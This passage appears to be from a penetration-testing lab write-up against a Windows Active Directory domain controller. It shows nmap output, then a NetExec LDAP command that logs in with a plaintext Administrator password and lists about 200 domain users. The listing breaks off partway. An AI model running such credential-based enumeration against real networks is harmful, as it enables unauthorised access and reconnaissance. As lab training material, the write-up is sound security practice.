





I will start by riunning NMAP and check the ports on the machine!

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-06-24 15:08:49Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: d3v.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: d3v.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=d3dc.d3v.local
| Issuer: commonName=d3dc.d3v.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:32:25
| Not valid after:  2024-12-23T03:32:25
| MD5:   d575:eeea:40ac:0a21:0b1f:4fe3:d42d:8da2
| SHA-1: 3273:e55f:cb53:293a:9289:4149:266f:9e8e:c63f:2966
| -----BEGIN CERTIFICATE-----
| MIIC4DCCAcigAwIBAgIQHGtzRPFw17NFygizdfN18TANBgkqhkiG9w0BAQsFADAZ
| MRcwFQYDVQQDEw5kM2RjLmQzdi5sb2NhbDAeFw0yNDA2MjMwMzMyMjVaFw0yNDEy
| MjMwMzMyMjVaMBkxFzAVBgNVBAMTDmQzZGMuZDN2LmxvY2FsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuv0h+/zi19bZl22YskiNzlAExrjnw6Y/11hY
| Sq+8ZIAbxzje/noZohZf/afCPUCawRvUbdExy+WGMuxiiI0VqtpgKzn+c1/Cg/0K
| l7JGpdtMregudAR7dZVh6M5NBr2DLNqPP+1LeqG+pmI0Dwdov7JCX6ztpUGm4vvE
| OCtgIuWJHqYVR+DYwYSSJrXdmwnq/zR8J8BlSfgHIlcKfumaFQF/RITCs4zU9WyE
| xkJ7HJjdyjOSR4h5PlCYu0xui2itqhorFNvdTZ5MyixFic39tdPsK9hzUcDz2AnC
| 2HgKsWtlCtMp44a2RUZb1nB/OoE5NSO4DB4sGXGboVvWQOAwJQIDAQABoyQwIjAT
| BgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQAD
| ggEBAA6Vd/rJzjrj0HSQBquunQc2F3ffAho960SCeQfJzFb/xBCcwfi8zWQvrRhd
| r8SPr88d6883O5zXObDg+R9/JaYRIJvTkJtbcelGQil8tst0kTrwLl5cv+8YeTEd
| 2lgPSz+HWUSjvIUpxtJjg2tTCKrk8iGmm1YolnSmvozrNGw8PwI6OqktwActr1E5
| /AXZhtVwONOadI4diAR57evyRO6RRwvP4BKHj6bmFSHipmofvvkVJUgxprDFnFVe
| upqT2YUmA0cp8SF/S+fAm4Gk0L6W35uOrCz6z8Wb3YQ/Jn46PmaeJ8EAXvqZ61zF
| IPWDc/CsUM5EvsMg/MlG4q5LoWQ=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-24T15:10:21+00:00; +4s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: D3V
|   NetBIOS_Domain_Name: D3V
|   NetBIOS_Computer_Name: D3DC
|   DNS_Domain_Name: d3v.local
|   DNS_Computer_Name: d3dc.d3v.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-24T15:09:42+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
58391/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
```

Nice this is the DC@d3v.local domain.

&nbsp;

# KERBEROS

I will use NetExec to run a check over the users available on this domain:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2023-6553]
└─# NetExec ldap 10.9.30.10 -u 'Administrator' -p '9ze9wL0C!3' -d 'cyber.local' --users
SMB         10.9.30.10      445    D3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:D3DC) (domain:d3v.local) (signing:True) (SMBv1:False)
LDAP        10.9.30.10      389    D3DC             [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
LDAP        10.9.30.10      389    D3DC             [*] Total records returned: 205
LDAP        10.9.30.10      389    D3DC             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.9.30.10      389    D3DC             Administrator                 2020-01-07 17:56:30 1       Built-in account for administering the computer/domain      
LDAP        10.9.30.10      389    D3DC             Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        10.9.30.10      389    D3DC             DefaultAccount                <never>             0       A user account managed by the system.                       
LDAP        10.9.30.10      389    D3DC             krbtgt                        2020-06-08 13:46:57 0       Key Distribution Center Service Account                     
LDAP        10.9.30.10      389    D3DC             Nickolas.Anthony              2020-01-02 16:44:28 0                                                                   
LDAP        10.9.30.10      389    D3DC             Gloria.Stoehr                 2020-01-02 16:44:28 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kenneth.McKay                 2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mi.Isaacs                     2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Sadie.Dean                    2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Merry.Schultz                 2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Thelma.Davis                  2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Eddie.Hill                    2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Arthur.Jackson                2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Otis.Corbeil                  2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Timothy.Collins               2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Benny.Ginn                    2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Fraser                  2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mikel.Williams                2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Williams               2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Tim.Bell                      2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robin.Townson                 2020-01-02 16:44:29 0                                                                   
LDAP        10.9.30.10      389    D3DC             Nicholas.Martin               2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mary.Ross                     2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Ida.Guarino                   2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Daniel.Mosher                 2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             George.Edwards                2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jenifer.Berger                2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Latasha.Petillo               2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Earl.Castello                 2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Garton                 2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kathline.Brown                2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Susan.Ortiz                   2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jack.Jennings                 2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Holli.Macy                    2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Phyllis.McMillen              2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Sarah.Kirk                    2020-01-02 16:44:30 0                                                                   
LDAP        10.9.30.10      389    D3DC             Carlos.Evans                  2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Rosie.Noriega                 2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Anthony.Roberts               2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Marie.Montemayor              2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Betty.Murray                  2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Alison.McLaurin               2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Suzette.Horton                2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joseph.Bratt                  2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Peck                    2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jose.Johnson                  2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Arthur.Haggard                2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Tammy.Myers                   2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Paul.Daniel                   2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Arthur.Barber                 2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Nancy.Brown                   2020-01-02 16:44:31 0                                                                   
LDAP        10.9.30.10      389    D3DC             Juan.Torres                   2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             John.O'Neill                  2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Sharon.Watkins                2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Wendy.Casey                   2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jacob.Taylor                  2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Castillo               2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Miguel.Cleveland              2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Steven.Uribe                  2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Ana.Crepeau                   2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Eleanor.Clingerman            2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Alice.Barnes                  2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Virginia.Isaacs               2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Craig.Dana                    2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Paola.Watson                  2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mary.Ricketts                 2020-01-02 16:44:32 0                                                                   
LDAP        10.9.30.10      389    D3DC             Regina.Rasmussen              2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jan.Arreguin                  2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Carlton.Edwards               2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jerome.Adams                  2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mary.Haack                    2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jennifer.Bass                 2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Chacon                 2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Gonzalez                2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Shannon.Looney                2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joshua.Moss                   2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Doris.Sheats                  2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jay.Sanderson                 2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Earnest.Silva                 2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Gloria.Cantwell               2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Judy.McClain                  2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Rebecca.Kuster                2020-01-02 16:44:33 0                                                                   
LDAP        10.9.30.10      389    D3DC             Richard.Lee                   2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Leandro.Gonzalez              2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             John.Louis                    2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Richard.Hooper                2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Shirley.Jessen                2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             John.Padilla                  2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jose.Donnellan                2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Dillon                 2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Ralph.Shull                   2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Arturo.Meyer                  2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joseph.Zamora                 2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Tracy.Johnson                 2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Gary.White                    2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Amy.Gephart                   2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Lester.Bunker                 2020-01-02 16:44:34 0                                                                   
LDAP        10.9.30.10      389    D3DC             Aaron.Burns                   2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Connie.Fullilove              2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             William.Simpson               2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Rachel.Durden                 2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Julius.Lee                    2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Blackwell               2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Carmen.Marsh                  2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mary.Asberry                  2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Antone.Robinson               2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kathy.Moses                   2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Heidi.Ortiz                   2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Nancy.Myrick                  2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kate.Lambert                  2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Tammy.Kilpatrick              2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Michael.Moten                 2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Dewey.Favreau                 2020-01-02 16:44:35 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jennifer.Yates                2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Brian.Shay                    2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kathleen.Ellison              2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             David.Pillow                  2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             John.Macklin                  2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Brandon.Tompkins              2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Christina.Mackenzie           2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Michael.Edwards               2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Harriet.Devereaux             2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Anna.Cortez                   2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Roy.Broome                    2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jan.Wolfe                     2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Shelba.Ramsey                 2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Juan.Hayworth                 2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Talitha.Allen                 2020-01-02 16:44:36 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joshua.Wheatley               2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Scott.Leonard                 2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Darren.Allender               2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Teddy.Klingbeil               2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Sara.Loch                     2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Phyllis.Golden                2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joseph.Maddox                 2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Heather.Holloway              2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kristen.Havens                2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             William.Griffin               2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Donnie.Garcia                 2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Nicole.Chang                  2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Talia.Canales                 2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jeff.Lasseter                 2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Dorothy.Loveland              2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Tracey.Delrosario             2020-01-02 16:44:37 0                                                                   
LDAP        10.9.30.10      389    D3DC             Curtis.Garcia                 2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Erica.Simmons                 2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Iris.Atkinson                 2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mark.Booker                   2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Alfonso.Fincher               2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Charles.Fortune               2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Antoinette.Williams           2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Sherill.Ricard                2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kenneth.Kovach                2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Barbara.Ingle                 2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Catherine.Labrie              2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Gibson                 2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Rodriguez              2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Roslyn.Dunham                 2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Lee.Diaz                      2020-01-02 16:44:38 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kerrie.Morris                 2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Elaine.Shoemake               2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Laura.Greenhill               2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Lan.Pantoja                   2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Doug.McCormick                2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Victor.Lowrey                 2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             William.Hussain               2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Spitz                   2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Alan.Carr                     2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Arlene.Brown                  2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Ken.Arellano                  2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Jason.Miller                  2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joseph.Rucker                 2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Rose.Blouin                   2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Leah.Palmer                   2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joe.Jeter                     2020-01-02 16:44:39 0                                                                   
LDAP        10.9.30.10      389    D3DC             John.McRae                    2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Maria.Gonzalez                2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joe.Sellers                   2020-01-02 16:44:40 0                                                                   
